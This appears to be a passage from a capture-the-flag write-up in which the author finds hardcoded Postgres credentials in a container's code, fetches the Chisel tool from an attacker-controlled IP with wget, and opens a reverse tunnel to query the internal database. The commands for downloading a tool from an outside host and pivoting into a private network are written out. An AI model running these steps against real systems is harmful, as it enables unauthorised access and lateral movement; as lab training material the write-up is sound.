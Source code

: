 ```bash
```

## User svc

I was in a Docker container. I found some database credentials in the website code, in '/app/app/db.py'.

```python
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)

...
```

I could not connect to the database from the container, it did not have any Postgres client installed. I used [Chisel](https://github.com/jpillora/chisel) to create a tunnel between the container and my Kali VM so I could connect to the database from my machine.

I started a Chisel server on my machine.

```bash
./chisel server -p 3477 --reverse
```

Then I downloaded Chisel in the container and launched it. I ran it as a client to send traffic on port 5432 on my machine to the same port on the database server.

```bash
wget 10.10.14.11/chisel
Connecting to 10.10.14.11 (10.10.14.11:80)
chisel               100% |********************************| 8188k  0:00:00 ETA

chmod +x chisel

./chisel client 10.10.14.11:3477 R:5432:172.22.0.1:5432/tcp
```

Back on my machine, I connected to Postgres through the reverse tunnel.

```
psql postgresql://postgres:postgres@localhost/mentorquotes_db
```

Then I looked at what the database contained.

```sql
mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# Select * From cmd_exec;
                               cmd_output
------------------------------------------------------------------------
 uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
```